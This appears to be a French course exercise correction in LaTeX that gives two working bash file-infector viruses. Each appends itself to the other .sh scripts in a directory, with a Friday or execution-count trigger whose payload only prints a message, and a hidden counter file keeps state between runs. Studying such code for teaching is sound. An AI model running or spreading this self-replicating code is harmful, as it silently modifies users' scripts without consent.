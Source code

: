 \documentclass[a4paper,11pt]{article}
\theoremstyle{plain}
\newtheorem{correction}{Correction}
\theoremstyle{definition}
\newtheorem{exercice}{Exercice}
\begin{document}
\begin{exercice}[Projet VBashX]
\begin{correction}

\textbf{3a)} Virus avec charge utile temporelle (vendredi) :
\begin{lstlisting}[title=vbashx\_phase3a.sh]
#!/bin/bash
echo "I am the host program"
# --- VBashX Phase 3a --- VBX_7k9Pz
MARKER="VBX_7k9Pz"
VIRUS_SIZE=15
# Payload: triggered on Friday (day 5)
if [ "$(date +%u)" -eq 5 ]; then
    echo "[VBashX] PAYLOAD ACTIVATED - Today is Friday!"
fi
# Infection phase
for f in *.sh; do
    if [ "$(basename "$f")" != "$(basename "$0")" ]; then
        if [ -z "$(grep "$MARKER" "$f")" ]; then
            tail -n $VIRUS_SIZE "$0" >> "$f"
        fi
    fi
done
\end{lstlisting}

\textbf{3b)} Virus avec charge utile par compteur :
\begin{lstlisting}[title=vbashx\_phase3b.sh]
#!/bin/bash
echo "I am the host program"
# --- VBashX Phase 3b --- VBX_7k9Pz
MARKER="VBX_7k9Pz"
VIRUS_SIZE=23
COUNTER_FILE=".vbx_count"
# Increment execution counter
if [ -f "$COUNTER_FILE" ]; then
    COUNT=$(cat "$COUNTER_FILE")
    COUNT=$(($COUNT + 1))
else
    COUNT=1
fi
echo $COUNT > "$COUNTER_FILE"
# Payload: triggered after 3 executions
if [ $COUNT -ge 3 ]; then
    echo "[VBashX] PAYLOAD: Execution count reached $COUNT!"
fi
# Infection phase
for f in *.sh; do
    if [ "$(basename "$f")" != "$(basename "$0")" ]; then
        if [ -z "$(grep "$MARKER" "$f")" ]; then
            tail -n $VIRUS_SIZE "$0" >> "$f"
    fi; fi
done
\end{lstlisting}

\textbf{3c)} Pour tester le déclencheur vendredi sans attendre, on peut utiliser \texttt{date -d} pour simuler une date :
\begin{lstlisting}[numbers=none]
# Remplacer temporairement dans le script :
# if [ "$(date +%u)" -eq 5 ]; then
# par :
if [ "$(date -d 'next Friday' +%u)" -eq 5 ]; then
# Ou bien definir une fonction date() qui retourne une date simulee :
date() { echo "5"; }
\end{lstlisting}
On peut aussi modifier temporairement la date système dans une VM : \texttt{sudo date -s "next Friday"}.

\begin{pointcle}
\begin{itemize}
    \item \texttt{date +\%u} retourne le jour de la semaine sous forme numérique (1=lundi, 7=dimanche).
    \item Les fichiers cachés (commençant par \texttt{.}) permettent de \textbf{persister un état} entre les exécutions du virus sans être visibles par \texttt{ls}.
    \item La séparation entre \textbf{infection} et \textbf{payload} est un principe architectural important : le virus se propage indépendamment du déclenchement de la charge utile.
\end{itemize}
\end{pointcle}


\end{correction}
\end{exercice}
\end{document}
